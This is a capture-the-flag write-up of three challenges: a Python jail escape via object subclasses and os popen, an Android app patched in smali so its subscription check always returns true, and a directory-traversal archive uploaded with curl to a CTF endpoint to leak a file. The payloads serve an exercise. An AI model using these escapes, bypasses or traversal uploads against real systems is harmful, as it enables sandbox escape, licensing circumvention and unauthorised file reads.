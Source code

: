 ## EP003CH02
We have a fun game in the terminal. It's quite hard to beat though. The goal of the game is to obtain a password. However, the Konami code works as a password, so we can skip the game. 
We end up in a pyjail that has a line length limit, too.

First, we locate `os._wrap_close` by just playing with commands like this:
```python
print("".__class__.__mro__[1].__subclasses__()[125:])
```
Then, we must get creative to bypass the line length limit. 
There is a `config` object with a `__setattr__` method. This allows us to store things.
Thus, we do
```python
print(config.__setattr__('a',"".__class__.__mro__[1].__subclasses__))
print(config.__setattr__('b', config.a()[132].__init__.__globals__))
print(config.b['popen']('cat flag').read())
```
to get the flag.

## EP003CH03

Android application that can be used to scan a QR code. However, it won't give us the flag unless we are subscribed.

With `apktool d` we can decompile the challenge.
Then, we just patch the `.smali` file containing the `isSubscribed()` method to return True.
```
.method public static final isSubscribed()Z
    .locals 1

    .line 24
    const v0, true
    return v0
.end method
```
We use `apktool b` to build this, and then sign it with 
`uber-apk-signer`. Scan the QR code, get the flag.

## EP004CH01

Skip this one until you have obtained source code for the challenge through EP004CH03.
Then, we can figure out what to send to the import endpoint. 

Using [ptoomey3/evilarc](https://github.com/ptoomey3/evilarc), we construct an archive that cotains a file with directory traversal characters in its path. i.e. a file like `../../../../../../../flag`.

The import endpoint notices that the file exists and gives us a diff, containing the flag.
The correct URL parameters were obtained through source code for `app.go`.
```
curl -v -F 'attachments=@evil.tar.gz' 'https://path-less-traversed-web.h4ck.ctfcom
petition.com/import?debug=true&submission=sample_submission&dryRun=false'
```
